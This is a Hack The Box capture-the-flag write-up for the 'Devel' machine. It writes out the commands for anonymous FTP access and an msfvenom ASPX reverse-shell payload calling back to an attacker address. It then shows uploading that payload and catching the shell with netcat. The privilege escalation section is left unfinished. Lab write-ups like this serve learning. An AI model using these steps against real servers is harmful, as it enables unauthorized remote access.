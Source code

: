 <H1 style="text-align: center;">Hack The Box </H1>
<H2 style="text-align: center;">Devel write up </H2>
<H2 style="text-align: center;">By Michael ThugBounty Keck </H2>
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Devel.png"></p>

<H1 style="text-align: left;"> Recon: </H1>
Started the test out by running Rustscan to get the open ports. 
Command: rustscan -a 10.10.10.5
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/devel.jpg"></p>

|Status|IP|Port|
| -----|--|----------- |
| Open | 10.10.10.4 | 21 |
| Open | 10.10.10.4 | 80 |

PORT 21: 
Checked to see if FTP would allow for anonymous login
Command: ftp 10.10.10.5
Found that anonymous login was allowed 
I used the following creds anonymous:anonymous
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Devel%20(6).jpg"></p>

PORT 80:
In FireFox I navigated to the page using the IP
I found the standard IIS7 page. 
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Devel%20(7).jpg"></p>

USER SHELL:
Started by testing FTP and adding a test text file.
Command echo 'testing' > test.txt 
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Devel%20(5).jpg"></p>

while connected to the host via FTP I uploaded the file. 
Command: put test.txt. -> upload successful 
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Devel%20(8).jpg"></p>
I checked the web browser by going to 10.10.10.5/test.txt and found the file was showing in the browser. 

Once I knew that it was working I crafted a reverse shell using MSFvenom
Command: msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.2 LPORT=4444 -f aspx > reverse.aspx
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Devel%20(9).jpg"></p>

Again used the put command 
Command put reverse.aspx
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Devel%20(1).jpg"></p>

I started a netcat listener in a new console tab making sure I use the same port as my payload. 
Command nc -nlvp 4444
Went back to FireFox and changed /test.txt to /reverse.aspx and I was able to get a shell back. 
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Devel%20(2).jpg"></p>

Privilege Escalation Root Flag:
Will come back to this 